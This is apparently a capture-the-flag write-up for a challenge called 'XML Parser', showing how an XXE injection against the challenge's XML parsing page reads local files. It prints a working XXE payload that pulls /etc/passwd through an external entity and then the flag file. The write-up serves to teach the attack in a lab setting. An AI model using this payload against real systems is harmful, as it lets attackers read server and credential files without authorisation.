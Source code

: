 ```yaml
---
layout: default
title: "XML Parser"
parent: "Digital Defenders Cybersecurity CTF"
---
```



# XML Parser 📄
**Digital Defenders Cybersecurity CTF 2023 WriteUp**

Webpage ask to enter XML string for it to parse, first thing I do it test some payloads.
- [payloadbox/xxe-injection-payload-list: 🎯 XML External Entity (XXE) Injection Payload List](https://github.com/payloadbox/xxe-injection-payload-list)

**Payload 1**:
![](../../resources/ctf/xml/1.png)

**Output 1**:
![](../../resources/ctf/xml/2.png)

Now we can test some payloads to read some local files.

<div style="page-break-after: always"></div>

Payload:
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<userInfo>
 <firstName>John</firstName>
 <lastName>&ent;</lastName>
</userInfo>
```

It printed `/etc/passwd` file.
![](../../resources/ctf/xml/3.png)

Now we can replace path to `flag.txt` and read the FLAG.

![](../../resources/ctf/xml/4.png)
